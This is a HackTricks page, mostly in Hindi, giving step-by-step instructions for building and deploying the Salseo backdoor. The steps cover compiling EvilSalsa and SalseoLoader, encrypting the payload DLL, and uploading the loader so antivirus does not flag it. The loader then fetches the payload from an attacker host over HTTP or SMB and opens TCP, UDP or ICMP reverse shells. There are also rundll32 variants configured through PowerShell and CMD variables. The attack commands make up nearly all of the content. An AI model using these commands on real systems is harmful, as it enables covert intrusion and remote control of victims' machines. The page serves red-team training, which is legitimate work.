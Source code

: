 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## बाइनरी संकलन करना

गिटहब से स्रोत कोड डाउनलोड करें और **EvilSalsa** और **SalseoLoader** संकलित करें। आपको कोड संकलित करने के लिए **Visual Studio** स्थापित करने की आवश्यकता होगी।

उन परियोजनाओं को उस विंडोज बॉक्स की आर्किटेक्चर के लिए संकलित करें जहाँ आप उनका उपयोग करने जा रहे हैं (यदि विंडोज x64 का समर्थन करता है तो उन्हें उस आर्किटेक्चर के लिए संकलित करें)।

आप **Visual Studio** में **बाएँ "Build" टैब** में **"Platform Target"** के अंदर **आर्किटेक्चर का चयन** कर सकते हैं।

(\*\*यदि आप ये विकल्प नहीं पा रहे हैं तो **"Project Tab"** पर क्लिक करें और फिर **"\<Project Name> Properties"** पर क्लिक करें)

![](<../.gitbook/assets/image (839).png>)

फिर, दोनों परियोजनाओं का निर्माण करें (Build -> Build Solution) (लॉग के अंदर निष्पादन योग्य का पथ दिखाई देगा):

![](<../.gitbook/assets/image (381).png>)

## बैकडोर तैयार करें

सबसे पहले, आपको **EvilSalsa.dll** को एन्कोड करने की आवश्यकता होगी। ऐसा करने के लिए, आप पायथन स्क्रिप्ट **encrypterassembly.py** का उपयोग कर सकते हैं या आप परियोजना **EncrypterAssembly** को संकलित कर सकते हैं:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### विंडोज
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
ठीक है, अब आपके पास Salseo चीज़ों को निष्पादित करने के लिए आवश्यक सभी चीज़ें हैं: **encoded EvilDalsa.dll** और **SalseoLoader का बाइनरी।**

**SalseoLoader.exe बाइनरी को मशीन पर अपलोड करें। उन्हें किसी भी AV द्वारा नहीं पहचाना जाना चाहिए...**

## **बैकडोर निष्पादित करें**

### **TCP रिवर्स शेल प्राप्त करना (HTTP के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शेल लिस्नर के रूप में nc शुरू करें और एन्कोडेड evilsalsa को सर्व करने के लिए एक HTTP सर्वर शुरू करें।
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP रिवर्स शेल प्राप्त करना (SMB के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शेल लिस्नर के रूप में एक nc शुरू करें, और एन्कोडेड evilsalsa (impacket-smbserver) को सेवा देने के लिए एक SMB सर्वर शुरू करें।
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP रिवर्स शेल प्राप्त करना (विक्टिम के अंदर पहले से एन्कोडेड dll)**

**इस बार आपको क्लाइंट में रिवर्स शेल प्राप्त करने के लिए एक विशेष उपकरण की आवश्यकता है। डाउनलोड करें:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP उत्तर बंद करें:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### क्लाइंट को निष्पादित करें:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### पीड़ित के अंदर, चलो salseo चीज़ को निष्पादित करते हैं:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader को DLL के रूप में संकलित करना मुख्य फ़ंक्शन निर्यात कर रहा है

Visual Studio का उपयोग करके SalseoLoader प्रोजेक्ट खोलें।

### मुख्य फ़ंक्शन से पहले जोड़ें: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### इस प्रोजेक्ट के लिए DllExport स्थापित करें

#### **Tools** --> **NuGet Package Manager** --> **Manage NuGet Packages for Solution...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport पैकेज के लिए खोजें (Browse टैब का उपयोग करते हुए), और Install दबाएं (और पॉपअप को स्वीकार करें)**

![](<../.gitbook/assets/image (100).png>)

आपके प्रोजेक्ट फ़ोल्डर में फ़ाइलें प्रकट हुई हैं: **DllExport.bat** और **DllExport\_Configure.bat**

### **U**ninstall DllExport

**Uninstall** दबाएं (हाँ, यह अजीब है लेकिन मुझ पर विश्वास करें, यह आवश्यक है)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio से बाहर निकलें और DllExport\_configure निष्पादित करें**

बस **बाहर निकलें** Visual Studio

फिर, अपने **SalseoLoader फ़ोल्डर** पर जाएं और **DllExport\_Configure.bat** निष्पादित करें

**x64** चुनें (यदि आप इसे x64 बॉक्स के अंदर उपयोग करने जा रहे हैं, तो यह मेरा मामला था), **System.Runtime.InteropServices** चुनें ( **DllExport** के लिए **Namespace** के अंदर) और **Apply** दबाएं

![](<../.gitbook/assets/image (882).png>)

### **Visual Studio के साथ प्रोजेक्ट फिर से खोलें**

**\[DllExport]** अब त्रुटि के रूप में चिह्नित नहीं होना चाहिए

![](<../.gitbook/assets/image (670).png>)

### समाधान का निर्माण करें

**Output Type = Class Library** चुनें (Project --> SalseoLoader Properties --> Application --> Output type = Class Library)

![](<../.gitbook/assets/image (847).png>)

**x64** **प्लेटफ़ॉर्म** चुनें (Project --> SalseoLoader Properties --> Build --> Platform target = x64)

![](<../.gitbook/assets/image (285).png>)

**समाधान** बनाने के लिए: Build --> Build Solution (Output कंसोल के अंदर नए DLL का पथ दिखाई देगा)

### उत्पन्न Dll का परीक्षण करें

Dll को उस स्थान पर कॉपी और पेस्ट करें जहाँ आप इसका परीक्षण करना चाहते हैं।

निष्पादित करें:
```
rundll32.exe SalseoLoader.dll,main
```
यदि कोई त्रुटि नहीं आती है, तो शायद आपके पास एक कार्यात्मक DLL है!!

## DLL का उपयोग करके एक शेल प्राप्त करें

**HTTP** **सर्वर** का उपयोग करना न भूलें और एक **nc** **श्रोता** सेट करें

### पॉवरशेल
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
